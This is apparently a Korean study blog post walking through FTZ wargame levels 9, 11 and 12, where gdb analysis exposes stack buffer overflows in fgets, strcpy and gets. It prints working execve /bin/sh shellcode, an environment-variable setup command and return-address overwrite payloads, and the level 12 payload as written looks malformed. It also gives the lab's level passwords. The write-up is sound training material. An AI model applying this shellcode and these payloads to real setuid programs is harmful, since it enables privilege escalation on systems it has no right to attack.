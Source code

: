 ```yaml
---
title: FTZ(Level 9, 11, 12)
author: 100zja
date: 2020-08-17
categories: [study]
tags: [ftz]
toc: ture
---
```


## **Level9**  

(1) gdb로 풀기  

![1](/images/구1.PNG) 

ls -al로 파일들을 확인하고  
힌트가 있음을 확인하고 힌트를 읽는다 

![2](/images/구2.PNG)  
코드를 해석해보면  
* char형 변수 buf, buf2가 10 크기의 배열로 각각 선언되고  

* 40만큼의 문자열을 fgets가 입력받아 buf에 저장한다  

* buf2에 저장된 문자가 go와 일치한다면 "Good skill!" 문구 출력과 3010의 level10 권한을 설정하고

* /bin/bash 쉘을 실행한다  
===> fgets에서 취약점이 발생해 버퍼 오버 플로우를 일으킨다는 것을 알 수 있다 

![3](/images/구3.PNG)  

gdb를 실행할 수 있는 권한이 있는 tmp로 이동한 뒤에 cat 명령어로 실행 파일을 생성한 뒤 컴파일한다

![4](/images/구4.PNG)  

gdb를 실행해서 메모리를 확인한다  
* main+3에서 40바이트의 메모리가 할당된다  
* main+43에서 eax에 ebp-40의 주소를 저장함 (buf)    
* main+65에서 eax에 ebp-24의 주소를 저장함(buf2)  
===> buf에서 입력 시에 ebp-40을 넘겨 16바이트를 넘기면 ebp-24 공간을 넘어가 버퍼 오버플로우 발생가능  

![5](/images/구5.PNG) 

bof 소스가 있는 /usr/bin 디렉토리로 이동해 bof 소스를 실행시켜 버퍼 오버플로우를 발생 시키고 level10의 권한을 얻어 my-pass로 확인한다  

### **level10 password : "interesting to hack!"**
-------------


## **Level11**  

![1](/images/십1.PNG)  
ls -al로 파일을 확인하고 cat hint 명령어를 통해 힌트를 열어본다  

![2](/images/십2.PNG)  
* int 배열과 char 배열을 받아옴
* 문자형 str배열의 크기는 256 바이트  
* 3092는 level12의 id임  
* 사용자가 입력한 값을 str에 넣고
* str 출력  
    - 사용자로부터 배열을 입력받은 뒤 프로그램의 인자로 입력받음  
====> strcpy에서 취약점이 발생해 버퍼 오버 플로우가 일어난다  
    
![3](/images/십4.PNG)  


test를 입력하니 그대로 출력된 것으로 보아 힌트가 attackme의 소스코드인 것을 알 수 있다.  

![4](/images/십5.PNG)  
attackme를 권한이 있는 tmp로 복사한 뒤 tmp로 이동해 gdb로 실행시킨다  
gdb를 해석해 보면  
* setreuid전에 확보된 메모리 : 108 + 8 (16진수) = 110 => 272 byte  
* main + 9 : SFP, RET =>8 byte  
===> 256(buffer) + 8(dummy) + 4(SFP) + 4(RET)  

![5](/images/십7.PNG)  
* export 명령어를 통해서 환경변수를 등록해준다  
    - export [환경변수명]=$(python -c 'print "쉘코드"')
* 쉘코드 : "\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"  
![6](/images/십8.PNG)  
* env 명령어를 사용해 환경 변수를 확인한다  
    - env 명령어 : 현재 지정되어 있는 환경 변수들을 출력하거나, 새로운 환경 변수를 설정하고 적용된 내용을 출력하는 명령어  
    - env [옵션]... [name = 값]... [명령[인수]...]  


![7](/images/십9.PNG)  
![8](/images/십10.PNG) 

* getenv() 함수 : 환경변수를 읽는 역할  

* SHELLCODE를 실행시키는 프로그램을 짠 뒤 컴파일 해 준다  
dap을 실행해 보면 쉘코드 주소가 나타난다  

![9](/images/십11.PNG)  

* 마지막으로 RET 주소까지 가기 위해서는 268 byte가 필요하므로 페이로드(전송되는 데이터)를 작성해야한다 

* 0xbffffc1d를 리틀엔디안으로 변환하면 \x1d\xfc\xff\xbf  

* 페이로드를 완성하면 ./attackme `python -c 'print "A"*268+"\x1d\xfc\xff\xbf"'`  
===> 프로그램 실행 시 인자를 넘겨줌  
그 뒤에 id를 확인하고 level12가 된 것을 확인하고 my-pass를 통해 비밀번호를 확인한다  

### **level12 password : "it is like this"**  
----------------


## **Level 12**

![1](/images/하나.PNG)  
ls -al 명령어로 존재하는 파일들을 확인한다  
힌트가 있는 것을 확인한다

![2](/images/둘.PNG)  
cat hint 명령어를 사용해 힌트를 확인한다  
힌트를 분석해보면  
* 문자형 배열이 256 크기로 선언된다
* level 13의 id가 있고
* gets 함수로 str변수에 입력을 받고
* 입력받은 내용을 printf로 출력한다    
    - 프로그램을 실행한 뒤에 gets 함수로 입력을 받음   
===> gets 함수로 버퍼 오버플로우 취약점이 발생하게 된다

![3](/images/넷.PNG)  
attackme를 gdb로 보기 위해 권한이 있는 tmp 디렉토리로 복사한뒤 tmp로 이동해 gdb로 확인한다  
gdb를 확인해보면   
* main +3 : 264만큼의 메모리 확보  
    - str은 256 byte이므로 dummy값이 8 byte라는 것을 알 수 있음
    - RET - 4 byte
    - SFP - 4 byte
    - str - 256 byte   
===> return address를 덮어쓰기 위해서는 264(str) + 4(sfp) = 268 byte가 필요함  
* main + 49 : ebp - 264 -> str 버퍼부터 ebp까지 거리가 264임  
    - ret : ebp로부터 4byte 아래에 위치하기 때문에 268 byte가 된다(str 부터 ret 까지의 거리)  

문제를 해결하기 위해서는 level11 처럼 쉘코드를 이용해 환경변수에 등록해야한다  
* 쉘 코드 : "\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"  

* 환경변수 : export 명령어 샤용  
    - export [환경변수명]=$(python -c 'print "쉘코드"')  
===> - export SHELLCODE=$(python -c 'print "\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"') 를 환경변수로 등록한다  

![4](/images/다섯.PNG)  

그 다음 env 명령어로 등록된 환경변수를 확인한다  

![5](/images/여섯.PNG)  

환경변수에 등록된 쉘코드의 주소를 알아내기 위한 c언어 코드를 작성한 뒤 실행한다  

![6](/images/일곱.PNG)

코드를 컴파일 해준다  

![7](/images/여덟.PNG)  

컴파일 하고 실행해주면 쉘 코드의 주소가 나온다  

마지막으로 쉘 코드 주소를 리틀엔디안으로 변환하고 페이로드를 작성해 답을 구한다

쉘 코드 주소 : 0xbffffc1d  
리틀엔디안 변환 : \x1d\xfc\xff\xbf 

* 페이로드 : $(python -c'print "A"*268 + "\x1d\xfc\xff\xbf"', cat) | ./attackme  
를 입력하면 권한이 얻어지고 my-pass로 level13의 패스워드를 확인한다  

    - level12에서 '|'(pipe)를 사용하는 이유는 gets가 프로그램 시작 중에 입력을 받기 때문이고 level11에서는 프로그램이 실행되는 동시에 인자를 받았기 때문에 '|'(pipe)를 사용하지 않았다   
    - '|'(pipe)를 사용하면 pipe 이전의 결과 값이 pipe 이후의 입력값이 됨  
    ===>  $(python -c'print "A"*268 + "\x1d\xfc\xff\xbf"', cat)이 결과가 ./attackme의 데이터로 들어가게 됨  
    - cat을 쓰는 이유는 cat을 쓰지않으면 ./attackme가 표준입력을 받지 못하기 때문  
    ===> 동시에 같이 써줘야 함  
    - ';'을 이용하면 동시에 여러 명령어를 사용할 수 있음  
    -   따라서 $(python -c'print "A"*268 + "\x1d\xfc\xff\xbf"', cat) | ./attackme 이런 형식의 페이로드가 나오게 된다  
